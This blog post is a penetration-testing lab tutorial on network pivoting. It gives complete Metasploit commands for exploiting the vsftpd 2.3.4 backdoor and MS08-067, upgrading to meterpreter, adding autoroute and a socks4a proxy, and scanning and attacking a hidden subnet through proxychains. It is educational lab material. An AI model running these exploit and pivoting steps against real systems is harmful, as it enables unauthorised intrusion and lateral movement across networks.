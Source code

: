 ```yaml
---
title:  "Pivoting - part 2. Proxychains. Metasploit. Practical example."
date:   2021-11-08 10:00:00 +0600
header:
  teaser: "/assets/images/20/2021-11-08_13-25.png"
categories:
  - pentest
tags:
  - pivoting
  - red team
  - networking
  - pentest
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!           

![pivoting 1](/assets/images/20/2021-11-08_13-25.png){:class="img-responsive"}         

This article I will consider scenarios for attacking protected segments of the corporate network using pivoting techniques via `metasploit` framework and `proxychains`.      

### scenario

Let's consider at this network topology:       

![pivoting 1](/assets/images/20/pivot-topology.png){:class="img-responsive"}         

> for simplicity, I chose Metasploitable as machine A and vulnerable windows xp sp3 as machine B        

### enum and compromise machine A

Often in a real pentest, you do not know the exact address of the vulnerable machines in network, so first I did hosts discovery:
```bash
nmap -sn -T4 10.10.2.0/24 -oG - | awk '/Up$/{print $2}'
```

![pivoting 1](/assets/images/20/2021-11-08_12-04.png){:class="img-responsive"}         

As you can see, our target is `10.10.2.15`.          

Then scan:
```bash
nmap -Pn -sV 10.10.2.15
```

![pivoting 1](/assets/images/20/2021-11-08_12-18.png){:class="img-responsive"}         


We found a vulnerable `21` port. But in this case we will pwn machine `A` via Metasploit Framework. The Metasploit Framework from Rapid7 is one of the best-known frameworks in the area of vulnerability analysis, and is used by many Red Teams and penetration testers worldwide.     

Firstly, run:
```bash
msfconsole
```

![pivoting 1](/assets/images/20/2021-11-08_12-20.png){:class="img-responsive"}         

In my case I am using `metasploit v5.0.87-dev` from my kali VM.    

Exploitation:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.10.2.15
set RPORT 21
run
```

![pivoting 1](/assets/images/20/2021-11-08_12-21.png){:class="img-responsive"}         

As you can see, we got a reverse shell session.        

enum network intefaces:
```bash
ifconfig
```

![pivoting 1](/assets/images/20/2021-11-08_12-22.png){:class="img-responsive"}         

And we discovered another network `10.9.1.22/24`.          

update our shell to meterpreter:
```bash
use post/multi/manage/shell_to_meterpreter
set LPORT 4441
set LHOST 10.10.2.6
set SESSION 1
run
```

![pivoting 1](/assets/images/20/2021-11-08_12-24.png){:class="img-responsive"}         


### access hidden network via proxy

Further, according to the scenario, the attacker wants to gain access to the subnet behind the `10.9.1.0/24` interface. To do this, he needs to use a compromised host as a pivot.   

Check our meterpreter session:        
```bash
sessions -l
```

![pivoting 1](/assets/images/20/2021-11-08_12-24_1.png){:class="img-responsive"}         


The following command can be used to create a tunnel through an existing meterpreter session:    
```bash
sessions -i 2
run autoroute -s 10.9.1.0/24
run autoroute -p
```

![pivoting 1](/assets/images/20/2021-11-08_12-26.png){:class="img-responsive"}         

We have added our additional route and this route will work during the meterpreter session is not closed.    

In order for our tools such as nmap to work on this network, we must configure a `socks4a` proxy:     
```bash
use auxiliary/server/socks4a
set SRVHOST 10.10.2.6
set SRVPORT 8090
```

![pivoting 1](/assets/images/20/2021-11-08_12-28.png){:class="img-responsive"}         


Check:        
```bash
netstat -antp
```

![pivoting 1](/assets/images/20/2021-11-08_12-29.png){:class="img-responsive"}         

As you can see the proxy has been created immediately and you can see our current meterpreter session `10.10.2.6:4441`.     

Now we configure `proxychains`. Using the `proxychains` utility, any TCP connection can be sent to the destination via TOR, SOCKS4, SOCKS5, HTTP/HTTPS proxy. Let's make a small update in the settings file `/etc/proxychains.conf`:    
```bash
nvim /etc/proxychains.conf
```

![pivoting 1](/assets/images/20/2021-11-08_12-31.png){:class="img-responsive"}         


Then, scan via `proxychains` and `nmap`:         
```bash
proxychains4 nmap -sT -p21,22,135,139,445 10.9.1.0/24 2>&1 | grep 'OK'
```

![pivoting 1](/assets/images/20/2021-11-08_13-10.png){:class="img-responsive"}         

### exploit and access machine B

scan machine `B`:
```bash
proxychains4 nmap -Pn -sT -sV 10.9.1.12
```

![pivoting 1](/assets/images/20/2021-11-08_13-12.png){:class="img-responsive"}         

so, machine OS is `Microsoft Windows XP`

check port `445` for vulnerability:
```bash
proxychains4 nmap -Pn -sT -sV --script=*smb-vuln* 10.9.1.12
```

![pivoting 1](/assets/images/20/2021-11-08_13-09.png){:class="img-responsive"}         

is vulnerable to `ms08-067`.

Run in `metasploit` again:          
```bash
use exploit/windows/smb/ms08_067_netapi
set payload windows/shell/bind_tcp
set RHOSTS 10.9.1.12
set RHOST 10.9.1.12
set LPORT 4447
run
```

![pivoting 1](/assets/images/20/2021-11-08_13-23.png){:class="img-responsive"}         

Here we used the bind shell, so it's not necessary to create the reverse route.        

![pivoting 1](/assets/images/20/2021-11-08_13-25.png){:class="img-responsive"}         

**So, the machine B has been pwned :)**

### conclusion

the attacker discovered secret network by following the steps below.

- attacker got an access to the `machine A (10.10.2.15)` which was on same network with attacker via exploitation `vsftpd 2.3.4` on port `21`          
- then he realise that `machine A` has 2 network interfaces         
- access hidden network via `autoroute` in meterpreter session to `machine A`       
- create `socks4a` proxy         
- then attacker scan ports on new discovered network `10.9.1.0/24`         
- scan ports on `10.9.1.12`           
- `machine B` have vulnerable `smb` on port `445`                  
- successfully exploit `ms08-067` on `machine B`                   
- final       

[first part](/pentest/2021/11/04/pivoting-1.html)         
[pivoting via metasploit](https://www.offensive-security.com/metasploit-unleashed/pivoting/)          
[metasploit](https://www.metasploit.com/)            
[proxychains](https://github.com/haad/proxychains)       

> This is a practical case for educational purposes only.      

Thanks for your time, happy hacking and good bye!    
*PS. All drawings and screenshots are mine*             
